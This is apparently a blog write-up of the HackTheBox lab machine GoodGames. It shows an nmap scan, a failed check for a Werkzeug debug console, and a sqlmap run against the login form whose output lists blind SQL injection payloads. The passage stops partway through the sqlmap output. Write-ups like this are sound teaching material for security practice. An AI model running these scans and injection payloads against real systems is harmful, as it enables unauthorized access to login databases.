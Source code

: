 ```yaml
---
layout: post
title:  "GoodGames Writeup"
name: "goodgames"
date:   2023-03-24 07:44
author: "soh3ee"
categories: writeups
--- 
```

{% assign image_path = site.data.categories[0].image_path %}
# Reconnaissance

```shell
nmap -p- -sCV -o goodgames.txt --min-rate=10000 10.10.11.130
Warning: 10.10.11.130 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.130
Host is up (0.086s latency).
Not shown: 64418 closed tcp ports (conn-refused), 1116 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 21 15:46:24 2023 -- 1 IP address (1 host up) scanned in 27.49 seconds
```
## Initial Access
![]({{ image_path }}{{ page.name }}/img1.png)
The only port that was open was port 80, which is used for web services (`http`). I visited the website and traversed through the site, to see if there was any particular infomrat

`Nmap` identified some information about the technology the site was using: Werkezeug/2.0.2 Python/3.9.2. The version number itself, along with the name of technology caught my eyes-- I searched for "Werkzeug 2.0.2 exploits". Looking at HackTricks, it seemed that if debug was enabled, there could be a URI to the console at the `/console` endpoint. I hoped that this would be my initial access, but unfortunately I received a 404 error.

Moving on, I traversed through the site and analyzed the requests the site was sending using Burpsuite. This didn't result to much, as everything seemed normal. Eventually, I withdrew myself to the login page, in which I came to my last resort: SQL injection. SQL injections are always a possibility with login pages, but I like looking around first before I result to bruteforce options. I used burpsuite to confirm the URI path and data parameters:

![]({{ image_path }}{{ page.name }}/burpsuite.png)

### Sqlmap Payload
``` shell
sqlmap -u 'http://goodgames.htb/login' --data="email=test@gmail.com&password=test" --level 5 --risk 3 -f --banner │ --ignore-code 401
```
``` sql
sqlmap identified the following injection point(s) with a total of 235 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: email=test@gmail.com' OR NOT 9443=9443-- ivUO&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
```
